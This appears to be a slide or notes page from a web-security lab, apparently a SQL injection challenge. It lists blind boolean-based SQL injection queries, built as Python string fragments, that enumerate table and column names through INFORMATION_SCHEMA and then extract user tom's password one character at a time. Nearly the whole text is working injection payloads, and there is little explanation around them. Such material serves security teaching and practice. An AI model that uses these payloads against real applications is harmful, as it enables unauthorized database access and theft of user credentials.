

# Queries used
tom' and (select count(*) from INFORMATION_SCHEMA.tables)="+str(count)+"-- (to get number of tables)
username="tom' and (select substring(table_name,"+str(j+1)+",1) from (select table_name from INFORMATION_SCHEMA.tables limit 1 offset "+str(i)+"))='"+str(alphabets[iter]) (to get the names of the table)
username="tom' and (select length(column_name) from (select column_name from INFORMATION_SCHEMA.columns where table_name='CHALLENGE_USERS' limit 1 offset "+str(i)+"))="+str(length)+"--" (to get the length of the columns)
username="tom' and (select substring(column_name,"+str(j+1)+",1) from (select column_name from INFORMATION_SCHEMA.columns where table_name='CHALLENGE_USERS' limit 1 offset "+str(i)+"))='"+str(alphabets[iter]) (to get the names of the columns)
username="tom' and (select length(PASSWORD) from CHALLENGE_USERS where USERID='tom')="+str(password_length)+"--"
 (To get the length of the password)
username="tom' and (select substring(PASSWORD,"+str(j+1)+",1) from CHALLENGE_USERS WHERE USERID='tom')='"+str(alphabets[iter]) (TO get the password)